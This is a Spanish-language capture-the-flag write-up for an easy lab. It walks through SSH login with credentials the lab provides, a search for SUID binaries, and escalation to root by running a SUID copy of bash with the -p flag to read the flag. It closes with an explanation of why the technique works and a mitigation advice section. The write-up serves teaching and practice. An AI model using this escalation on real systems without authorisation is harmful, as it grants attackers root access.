




## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**Autor**|elc0ket|

---

## Fase 1: Acceso Inicial

Las credenciales se proporcionan directamente en el laboratorio:

- **Usuario:** `hacker`
- **Contraseña:** `b4sh123`

```bash
ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'
ssh hacker@172.17.0.2
```

```
hacker@bec55ccaa8b2:~$ whoami
```



---

## Fase 2: Reconocimiento — Búsqueda de binarios SUID

Con acceso como `hacker`, buscamos binarios con el bit SUID activo. Estos archivos se ejecutan con los privilegios de su propietario (normalmente root), independientemente de quién los invoque.

```bash
find / -perm -4000 -type f 2>/dev/null
```



El binario `/opt/bash_suid` destaca inmediatamente: es una copia de `bash` con el bit SUID activado, lo que significa que se ejecutará como `root`.

---

## Fase 3: Escalada de Privilegios

El flag `-p` de bash activa el **modo privilegiado**, que preserva el UID efectivo del propietario del binario (root) en lugar de caer al UID real del usuario que lo ejecuta. Sin `-p`, bash reestablecería los privilegios al usuario actual por seguridad.

```bash
/opt/bash_suid -p
```

```
bash_suid-5.1# whoami
```



Escalada completada. Ahora operamos como `root`.

---

## Fase 4: Captura de la flag

```bash
cd /root
ls
cat flag.txt
```




---

## Conclusión

|Técnica|Descripción|
|---|---|
|**Vector**|Binario SUID mal configurado (`/opt/bash_suid`)|
|**Explotación**|`bash -p` preserva el UID efectivo de root|
|**Impacto**|Escalada completa a root|

### ¿Por qué funciona?

Cuando un binario tiene el bit SUID activo y su propietario es `root`, el sistema operativo lo ejecuta con los privilegios de `root` aunque lo lance un usuario sin privilegios. El flag `-p` es clave: sin él, versiones modernas de bash detectan que el UID real y efectivo no coinciden y los igualan hacia abajo, eliminando el privilegio elevado. Con `-p`, se mantiene el UID efectivo de root.

### Mitigación

Nunca asignar el bit SUID a intérpretes de comandos como `bash`, `python`, `perl`, etc. Para auditar binarios SUID en un sistema:

```bash
find / -perm -4000 -type f 2>/dev/null
```